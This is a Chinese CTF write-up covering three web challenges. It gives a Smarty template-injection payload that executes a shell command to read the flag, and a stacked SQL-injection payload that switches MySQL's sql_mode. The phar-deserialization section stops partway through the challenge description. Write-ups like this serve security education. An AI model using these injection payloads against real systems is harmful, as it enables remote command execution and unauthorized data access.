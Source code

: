 ﻿---
title: 第一届四叶草牛年CTF
categories: 赛题wp
---
![](https://img-blog.csdnimg.cn/20210301023339685.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)


---
## web GET
- 考点：smarty模块注入

![](https://img-blog.csdnimg.cn/20210301013616644.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
是smarty模板注入  [smarty模块注入](https://blog.csdn.net/qq_45521281/article/details/107556915)

```
  payload：?flag={if passthru(“tac fl*”)}{/if}

  passthru — 执行外部程序并且显示原始输出
```

---
## web StAck3d 1nj3c
- 考点：堆叠注入+sql _mode

 测试堆叠注入成功

![](https://img-blog.csdnimg.cn/20210301014139683.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
![](https://img-blog.csdnimg.cn/20210301014151593.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
走到这一步 发现 from被 ban了 走不下去了

wp：

 [SUCTF 2019]EasySQL 原题

赛题原理：
 >select $_GET['query'] || flag from flag


>在oracle 缺省支持 通过 ‘ || ’ 来实现字符串拼接, 但在mysql 缺省`不支持`。需要调整mysql 的sql_mode 模式：pipes_as_concat 来实现oracle 的一些功能

```
  payload: query=1;set sql_mode=PIPES_AS_CONCAT;select 1
 ```

---
## web file manager
- 考点：phar 反序列化+伪协议

[phar反序列化](https://blog.csdn.net/qq_42181428/article/details/100995404)


题目有四个功能，分别是文件上传，创建文件，删除文件和列举目录
